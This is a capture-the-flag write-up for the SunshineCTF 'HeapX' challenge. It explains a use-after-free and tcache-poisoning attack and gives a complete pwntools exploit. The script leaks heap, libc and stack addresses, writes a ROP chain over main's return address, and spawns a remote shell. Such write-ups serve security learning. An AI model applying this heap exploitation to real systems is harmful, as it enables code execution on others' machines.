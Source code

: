 # HeapX

```
We discovered the Falcon 9 rocket's log aggregator, HeapX, can you pwn it and take control before it reaches orbit?

    heapx
    libc.so.6
    ld.so

nc chal.sunshinectf.games 25004 
```

This problem gives a UAF, also you can allocate infinite chunks, but the first 16 chunks allocated can be written to, read from or freed.

A convinience is given that for editing a chunk, we can specify the offset from where to write, but the offset and size cannot exceed the chunk size.

The major obstacle we face here is the first 16 chunks allocated will be freed before returning from main.

It will be really nasty to make the 16 chunks (including our arbitrary alloced chunks and chunks for UAF read and such) to all be legal to be freed. Therefore, I resolved to another method: cover up the pointers and sizes in the bss array.

At first, I want to leak proc address and do arbitrary alloc to bss segment which contains the pointers to be freed. However, I tried to arbitrary alloc to libc's got first and it failed sadly, due to the fact that it is not writable. Then I found the index to the array is on stack, so we can arbitrary alloc to stack, cover the return address of main function to a rop chain and cover the index to 0.

Then we allocate 16 chunks legally and can solve the problem.

## exp

```py
from pwn import *
context(log_level="debug", arch="amd64", os="linux")
# p = process("./heapx")
p = remote("chal.sunshinectf.games", 25004)
libc = ELF("./libc.so.6")

def create(size):
    p.recvuntil("> ")
    p.sendline("new")
    p.sendline(str(size))

def delete(index):
    p.recvuntil("> ")
    p.sendline("delete")
    p.sendline(str(index))

def show(idx):
    p.recvuntil("> ")
    p.sendline("read")
    p.sendline(str(idx))

def edit(idx, offset, content):
    p.recvuntil("> ")
    p.sendline("write")
    p.sendline(str(idx))
    p.sendline(str(offset))
    p.recvuntil("Enter log data: ")
    p.sendline(content)

# try leak
create(0x80) # 0
delete(0)
show(0)
heap_base = u64(p.recv(5).ljust(8,b'\x00'))*0x1000
log.info("heap_base: "+hex(heap_base))
create(0x428) # 1
create(0x100)  # 2
create(0x100) # 3
delete(1)
show(1)
libc_leak = u64(p.recv(6).ljust(8,b'\x00'))
log.info("libc_leak: "+hex(libc_leak))
libc_base = libc_leak - 0x210b20
stderr_leak = libc_base + 0x20fe80
log.info("libc_base: "+hex(libc_base))
log.info("stderr: "+hex(stderr_leak))

environ = libc_base + libc.symbols["environ"]
# environ leak
delete(2)
delete(3)

edit(3, 0, p64((environ - 0x18) ^(heap_base >> 12)))
create(0x100) # 4

create(0x100) # 5

edit(5, 0, b"a"*0x16 + b"bb")
show(5)
stack_leaks = p.recv(0x18 + 6)
stack_leak = u64(stack_leaks[0x18:0x18+6].ljust(8,b'\x00'))
log.info("stack_leak: "+hex(stack_leak))
# tcache poisoning to stack
rbp = stack_leak - 0x138 - 0x20
create(0xf0) # 6
create(0xf0) # 7
delete(6)
delete(7)
edit(7, 0, p64(rbp ^ (heap_base >> 12)))
create(0xf0) # 8
create(0xf0) # 9
pop_rdi = libc_base + 0x119e9c
ret = pop_rdi + 1
binshell = libc_base + next(libc.search(b"/bin/sh"))
system = libc_base + libc.symbols["system"]
edit(9, 0x28, p64(pop_rdi) + p64(binshell) + p64(ret) + p64(system))

edit(9, 0x8, b"\x00")
for i in range(0x10):
    create(0x20)

p.recvuntil("> ")
p.sendline("exit")
p.interactive()
```
